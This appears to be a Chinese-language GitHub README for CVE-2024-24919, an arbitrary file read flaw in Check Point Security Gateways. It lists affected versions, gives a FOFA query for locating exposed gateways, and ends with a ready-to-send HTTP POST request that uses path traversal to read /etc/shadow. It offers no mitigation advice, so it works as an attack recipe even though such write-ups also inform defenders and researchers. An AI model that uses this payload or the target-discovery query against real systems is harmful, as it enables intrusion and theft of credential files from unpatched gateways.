

# CVE-2024-24919

> **Created by：** A-little-dragon
> 
> **Team：** TracelessSec
> 
> **漏洞描述：** Check Point 安全网关任意文件读取漏洞 


## 0x01 产品介绍

Check Point Security Gateways 是 Check Point Software 提供的一系列网络安全解决方案。这些解决方案包括下一代防火墙（NGFW）、数据中心安全网关和 AI 驱动的量子网关，旨在为企业提供针对复杂网络威胁的先进防护。它们通过集成的威胁防护、统一的安全管理和策略控制，确保网络、云、移动和端点的安全。

## 0x02 漏洞描述

Check Point Security Gateways 任意文件读取漏洞(CVE-2024-24919)存在在野利用，远程攻击者可以通过构造恶意请求读取服务器上的任意文件，造成敏感信息的泄漏。

## 0x03 影响范围

```
Check Point Security Gateways R77.20 (EOL)
Check Point Security Gateways R77.30 (EOL)
Check Point Security Gateways R80.10 (EOL)
Check Point Security Gateways R80.20 (EOL)
Check Point Security Gateways R80.20.x
Check Point Security Gateways R80.20SP (EOL)
Check Point Security Gateways R80.30 (EOL)
Check Point Security Gateways R80.30SP (EOL)
Check Point Security Gateways R80.40 (EOL)
Check Point Security Gateways R81
Check Point Security Gateways R81.10
Check Point Security Gateways R81.10.x
Check Point Security Gateways R81.20
其他受影响组件
无
```

## 0x04 FOFA语法

```bash
app="Check_Point-SSL-Network-Extender"
```

## 0x05 漏洞复现

```txt
POST /clients/MyCRL HTTP/1.1
Host: ip
Content-Length: 39

aCSHELL/../../../../../../../etc/shadow
```


